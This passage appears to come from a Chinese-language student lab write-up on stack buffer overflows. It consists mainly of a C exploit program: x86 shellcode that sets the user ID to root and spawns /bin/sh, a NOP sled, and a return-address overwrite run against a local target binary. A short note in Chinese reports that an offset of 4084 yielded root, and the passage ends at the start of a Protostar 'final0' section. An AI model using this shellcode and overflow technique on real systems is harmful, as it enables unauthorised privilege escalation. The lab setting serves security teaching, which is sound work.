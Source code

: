 ```c

char shellcode[] = ""
	"\x31\xc0"		// clear eax, as we don't know its state
	"\xb0\x46"		// syscall setreuid
	"\x31\xdb"		// real user ID = 0
	"\x31\xc9"		// effective user ID = 0
	"\x99"			// saved set-user-ID = 0 (using EDX)
	"\xcd\x80"		// call it

	"\x96"			// clear eax, as we don't know its state after former syscall
	"\xb0\x0b"		// syscall execve
	"\x53"			// NULL string terminator
	"\x68\x2f\x2f\x73\x68"	// //sh
	"\x68\x2f\x62\x69\x6e"	// /bin
	"\x89\xe3"		// pointer to above string - path to the program to execve
	"\xcd\x80";		// call it

int main(int argc,char **argv){
    char buf[330];
    char* p;
    p=buf;
    int i=0;
    unsigned long ret;
    int offset=0;

    if(argc>1)
        offset=atoi(argv[1]);
    
    ret=get_esp()-offset;
    
    memset(buf,0x90,sizeof(buf));

    memcpy(buf+320,(char*)&ret,4);

    memcpy(buf+150,shellcode,strlen(shellcode));

    printf("ret is at 0x%8lx\nesp is at 0x%8lx\n",ret,get_esp());
    execl("./tryof_nosetuid","tryof_nosetuid",buf,NULL);
    return 0;
}
```

首先测试offset=0时的情况，发现ret和buf的地址差了0xFF4，即4084。将offset设为4084后可以成功获得root权限。

![image-20211013081431922](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031940221.png)



### 二、加分项：final0

1、因为在自己的环境上始终无法配置，所以下载了protostar的镜像源，直接在protostar的环境里做。
